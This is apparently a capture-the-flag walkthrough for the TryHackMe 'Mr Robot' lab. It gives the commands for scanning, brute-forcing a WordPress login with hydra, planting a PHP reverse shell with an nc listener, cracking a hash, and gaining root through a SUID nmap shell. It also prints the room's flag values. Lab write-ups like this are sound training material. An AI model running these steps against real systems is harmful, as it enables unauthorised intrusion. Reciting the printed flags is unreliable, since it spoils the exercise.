 https://tryhackme.com/room/mrrobot

## **Scanning**
>	- Perform `nmap` scan on target machine using these options:
>		- `-sC` for the default script.
>		- `-sV` for the version type of ports.
>		- `-oA` to save the output with 3 standard formats.![](nmap-output.png)
```
nmap -sC -sV -oA scans/initial 10.10.231.179
```
>	- Found port `80`running a website.

## **Examining website**
>	- Use `gobuster` or `dirb` to retrieve all open directories and files.
```
gobuster dir -u http://10.10.231.179 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t 100 -q -o scans/dirb-small.txt
```
>	- Found  `/sitemap`, nothing useful.
>	- Found `/intro`, shows a video.
>	- Found `/wp-login`, WordPress login page, *INTERESTING!*
>	- Found `/license`, nothing useful.
>	- Found `/readme`, nothing useful.
>	- Found `http://10.10.231.179/robots`, which shows us 2 files, `fsocity.dic` and `key-1-of-3.txt`.
>	- `curl`ing this returns the *first key*.![](exam_1.png)

## **Looting**
>	- Expanding on `/wp-login` finding, we can use `hydra` to brute-force the login.
>	- Get the `name` of the input field for both the `username` and `password`.
```
hydra -L fsocity.dic -p test 10.10.231.179 http-post-form "/wp-login:log=^USER^&pwd=^PWD^:Invalid username" -t 30

```
>		- `-L` specifies the login usernames file.
>		- `-p` specifies the static password to use.
>		- `http-post-form` for the HTTP form for creds, and afterwards comes the parameters used followed by what to expect a `failed` attempt looks like which appears on the website.
>		- `-t` for threading.![](looting_1.png)
>	- Expand upon the found usernames.
```
hydra -l Elliot -P fsocity.dic 10.10.231.179 http-post-form "/wp-login:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
```
>		- `-l` specifies the static username to use.
>		- `-P` specifies the password file.
>	- Hydra takes a lot of time, try reversing the list and removing duplicates.
>	- Alternatives are Burpsuite.
>	- Password found `ER28-0652` for user `Elliot`
## **Reverse Shell**
>	- Found in `/appearance/editor` multiple pages that can be embedded with a reverse shell script.
>	- Used `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` inside the `archive.php` file, changing the `IP` to your `VPN IP` and the port to any port that you'll be listening on (`53` used in my case).
## **Listener**
>	- Use `rlwrap nc -lvnp 53` to listen on port `53` waiting for the shell.
>		- `rlwrap` give us some optional auto-completion and other benefits.
>		- `-l` for listening mode for inbound connects.
>		- `-v` for verbose.
>		- `-n` for numeric only IPs no DNS.
>		- `-p` for port number.
>	- Visit `/wp-content/themes/twentyfifteen/archive.php` to trigger the shell.![](listener_1.png)

## **Exploring Machine**
>	- After gaining the shell, used `ls` to view different directories.
>	- Found the *Second Key* in `/home/robot` directory. ![](key2-found.png)
>	- Turns out, no access to view the key.![](key-no-access.png)
>	- `password.raw-md5` seems interesting.

## **John The Ripper**
>	- Using `hash-identifier` we can get the hash type.![](hash-type.png)
>	- Using `john` to crack the hash.
```
john md5-hash --wordlist=../fsocity.dic --format=Raw-MD5
```
>	- The user password is `abcdefghijklmnopqrstuvwxyz`.
## **Upgrading the Shell**
>	- The `su` command can't be run from a terminal that's not *interactive*.
>	- Upgrade the terminal using `python` to spawn a shell of our choice.
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
>	- Then switch to the `robot` user with `su robot` and use the password found.![](robot-user.png)
>	- The *Second Key* can then be accessed, the value is `822c73956184f694993bede3eb39f959`

## **Privilege Escalation**
>	- Searching for file that has `SUID` bit set using `find / -perm -u=s -type f 2>/dev/null`
>		- `SUID` sets you as a `root` user or another user when you're running the command.![](suid.png)
>	- Searching in `https://gtfobins.github.io/` with the commands for `sudo` to gain a root shell.
>	- `nmap` is the command to be used.
```
nmap --interactive
!sh
```
>	![](root-user.png)
>	- *Third Key* found, with value `04787ddef27c3dee1ee161b21670b4e4`.![](key3-found.png)
